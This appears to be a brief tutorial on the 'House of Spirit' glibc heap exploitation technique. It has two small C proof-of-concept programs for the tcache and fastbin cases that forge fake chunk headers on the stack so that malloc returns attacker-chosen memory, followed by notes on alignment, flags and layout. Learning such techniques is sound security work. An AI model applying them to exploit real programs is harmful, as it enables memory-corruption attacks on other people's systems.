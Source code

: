 # House of Spirit
> LongChampion, 13/03/2020

## with tcache (**GLIBC** >= 2.26)
This attack is quite simple, look at the code:
```
#include <stdlib.h>

int main()
{
    long long Fake[4];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
## with fastbin (**GLIBC** <= 2.25)
To *hijack* fastbin, you need to create 2 chunks to bypass security check: `size` of chunk to be free must be equal to `size` of next chunk in memory.  
```
#include <stdlib.h>

int main()
{
    long long Fake[6];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    Fake[5] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
### Note:
- **THE MOST IMPORTANT**: `Fake` (and all other chunks) must be aligned by `MALLOC_ALIGNMENT` (usually 16 bytes in x64 system, 8 bytes in x32 system). Your life may be destroyed if you forget this. To make sure that `Fake` is aligned, add `__attribute__` to it:
    > `long long Fake[6] __attribute__((aligned(16))); // change 16 to 8 when you compile in x86 system`

- The `PREV_INUSE` flag is ignored, but `IS_MMAPPED` flag and `NON_MAIN_ARENA` flag can cause problem!
- The memory layout is (use for both case):
    > | Fake | chunk           |
    > |------|-----------------|
    > | 0    | first.pre_size  |
    > | 1    | first.size      |
    > | 2    | first.fd        |
    > | 3    | first.bk        |
    > | 4    | second.pre_size |
    > | 5    | second.size     |
- In both case, `ptr` will point to `Fake[2]` at the end (not point to `Fake`)
- `Fake` must have at least 4 elements (6 elements for fastbin) because when it is freed, the `fd` and `bk` pointer will be modified, this change can smash your stack frame!
- After `Fake` is free, make sure that you call `malloc` with suitable request size so that it will return `Fake[2]` to you.
- In the later case, make sure that distance between two chunks is equal to `size` (they are not adjacent on memory in general case)
